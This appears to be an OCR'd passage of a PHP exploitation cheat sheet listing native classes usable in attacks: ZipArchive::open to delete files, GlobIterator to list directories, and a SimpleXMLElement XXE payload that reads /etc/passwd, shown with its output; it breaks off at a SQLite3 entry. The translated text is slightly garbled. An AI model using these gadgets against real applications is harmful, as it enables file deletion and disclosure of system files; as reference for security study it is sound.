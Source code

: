 **ZipArchive::open Delete file: **
To call the object's quota open function, and the parameters in the open function are controllable

```php
$a = new ZipArchive();
$a->open('1.txt',ZipArchive::OVERWRITE);
// ZipArchive::OVERWRITE: Always start with a new compressed package, which will be overwritten if it already exists in this mode
// Because it is not saved, the effect is to delete 1.txt
```

**GlobIterator traversal directory: **
Traversal objects

```php
GlobIterator::__construct(string $pattern, [int $flag])
Iterate from constructing a new directory using $pattern
```

```php
Use Example

$newclass = new GlobIterator("./*.php",0);
foreach ($newclass as $key=>$value)
    echo $key.'=>'.$value.'<br>';
```

**SimpleXMLElement XXE:**
Used to represent elements in XML documents

```php
<?
php
$xml = <<<EOF
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x>&xxe;</x>
EOF;
$xml_class = new SimpleXMLElement($xml, LIBXML_NOENT);
var_dump($xml_class);
?>

The result is:
object(SimpleXMLElement)#1 (1) {
  [0]=>
  string(2393) "root:x:0:0:root:/root:/bin/bash
  ... ..."
}
```

**SQLite3 Create blank file: **
Prerequisite: There is a SQLite3 extension, and it is not enabled by default, it needs to be enabled manually
